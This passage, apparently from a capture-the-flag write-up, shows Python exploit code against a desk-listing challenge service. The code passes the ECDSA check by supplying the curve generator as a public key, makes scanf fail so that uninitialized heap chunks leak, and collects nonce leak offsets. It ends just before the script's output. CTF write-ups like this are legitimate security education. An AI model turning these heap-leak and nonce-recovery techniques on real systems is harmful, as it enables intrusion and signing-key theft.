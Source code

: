 ```py

d.cont()

def auth(pub_key):
    sla(b'> ', b'1')

    sla(b'Give me your ECDSA Public Key to be used: ', '{}, {}'.format(*pub_key[:2]).encode())


# add a listing triggering the unitialized malloc chunk allocation (for later leak)
def add_dummy_leak_listing(name = b'A'*6, desc = b'A'*8):
    sla(b'> ', b'1') # add desk listing

    sla(b'Insert the listing name (displayed in the listings page): ', name)
    sla(b'Insert the listing description: ', desc)
    # make scanf fail by sending '-' as price
    sla(b'Insert your target listing price: ', b'-')
    sla(b"Specify your desk's measures (Depth x Width x Height) in centimeters: ", b'1x1x1')


# to avoid wasting time generating a valid secp256r1 ECDSA key, just use point G as pub key, as it passes the checks (is in the curve)
G = 0x6b17d1f2e12c4247f8bce6e563a440f277037d812deb33a0f4a13945d898c296, 0x4fe342e2fe1a7f9b8ee7eb4a7c0f9e162bce33576b315ececbb6406837bf51f5
auth(G)

for _ in range(NUM_POPS):
    add_dummy_leak_listing()

# build associative list: gold user's desk listing signature index (index) -> pops count to reach its nonce leak (value)
unleakable_count = 0
leaks_offsets = []
for chunk_addr in reversed(nonce_k_chunks): # reversed order as these are dumped from 40th to 1st
    if chunk_addr in reused_offsets:
        leaks_offsets.append(reused_offsets[chunk_addr])
    else:
        unleakable_count += 1
        leaks_offsets.append(None)

print(f'{unleakable_count = }')
print(f'{leaks_offsets = }')
```

Here is the output of the above script:
